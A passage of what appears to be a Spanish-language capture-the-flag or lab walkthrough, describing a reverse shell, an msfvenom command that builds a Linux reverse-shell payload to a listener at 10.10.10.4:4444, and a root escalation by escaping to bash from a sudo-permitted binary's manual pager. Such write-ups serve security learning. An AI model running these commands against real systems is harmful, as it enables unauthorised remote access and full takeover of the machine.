 Ejecutamos el exploit
![[Pasted image 20240710100528.png]]

Y ya hemos obtenido la reverse shell
![[Pasted image 20240710102312.png]]

Una vez obtenido el acceso si revisamos el directorio en el cual estamos nos encontramos con un fichero que al ejecutarlo nos muestra los porcesos que estan escuchando
![[Pasted image 20240710105027.png]]

Ahora nos generaremos la reverse shell pero en linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.4 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20240710110029.png]]

Y ya hemos obtenido acceso con una shell de linux
![[Pasted image 20240710110011.png]]

Revisando los permisos encontramos que podemos ejecutar el siguiente binario como root sin password
![[Pasted image 20240710112135.png]]

Al ejecutar nos muestra como ejecutar el comando
![[Pasted image 20240710112207.png]]

Ejecutamos el comando
![[Pasted image 20240710112231.png]]

Al entrar en el manual escribimos la bas
```
!/bin/bash
```
![[Pasted image 20240710112311.png]]

Y al ejecutarlo ya obtenemos acceso a root
![[Pasted image 20240710112340.png]]

Obtención de b.txt
![[Pasted image 20240710112429.png]]